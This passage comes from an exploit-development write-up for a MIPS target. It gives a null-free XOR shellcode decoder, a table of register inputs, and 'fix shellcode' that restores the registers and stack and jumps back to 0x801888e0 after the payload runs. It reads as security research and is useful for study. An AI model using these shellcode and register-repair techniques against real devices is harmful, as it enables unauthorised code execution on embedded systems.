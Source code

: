 As we have control of the *$s0-3* registers, we can pass in some useful variables in those for the shellcode to use. This saves us some instructions as we don't need to manually load in addresses. Here is the simple decoder I wrote:

```
-mipsasm
  xor $s2, $s2, $s3       /* decode length in s2 with key in s3 */
loop:
  lw $s0, 0x1010($s1)     /* load the shellcode value to decode */
  xor $s0, $s0, $s3       /* decode the loaded value with key in s3 */
  sw $s0, 0x1010($s1)     /* save value to location it was got from */
  addiu $s2, $s2, -0x4    /* decrease s2 by 4 so we can check if all decoded */
  addiu $s1, $s1, 0x108   /* decrease decoding address by 4 (along with branch delay) */
  bgtz $s2, loop          /* loop if there is still more to decode */
  addiu $s1, $s1, -0x104  /* branch delay slot (happens before branch taken) */
```

The input values are as follows:

| Register | Value |
| - | - |
| *$s0* | Not used |
| *$s1* | Address of encoded shellcode |
| *$s2* | Encoded length of encoded shellcode |
| *$s3* | XOR key (I used **0xf6f6f6f6**) |

As this is not encoded, some modifications had to be made to remove any 0's in the generated machine code. The first is that an offset of *0x1010* had to be used in a couple of places, as the offset makes up 2 bytes, setting it to *0x1010* prevents the offset bytes from being 0. The second is how *$s1* is increased by 4, again, the immediate value we are adding is 2 bytes, so adding 4 will result in *0x00 0x04* being in our payload. Therefore, the first modifying addition has to be greater than *0x100*, the second doesn't matter as much as it is negative, but it must result in *$s1* being increased by 4.

## Fix Shellcode

Now that we know the values required in the overwritten registers, we can create a fix shellcode that fills the registers with these values after we have run our main shellcode:

```
-mipsasm
xor $v0, $s3, $s3       /* fix v0 (in branch delay slot) */
lui $t0, 0x802c 
ori $s0, $t0, 0x0404    /* fix s0 (0x802c0404) */
lui $s1, 0x8025
ori $s1, $s1, 0x0504    /* fix s1 (0x8025d504) */
ori $s2, $t0, 0x5268    /* fix s2 (0x802C5268) */
lui $s3, 0x802a     
ori $s3, $s3, 0xb9f4    /* fix s3 (0x802ab9f4) */
addiu $sp, $sp, 0xfff   /* Fix up stack once shellcode done */
j 0x801888e0
addiu $sp, $sp, -0xfef 
```

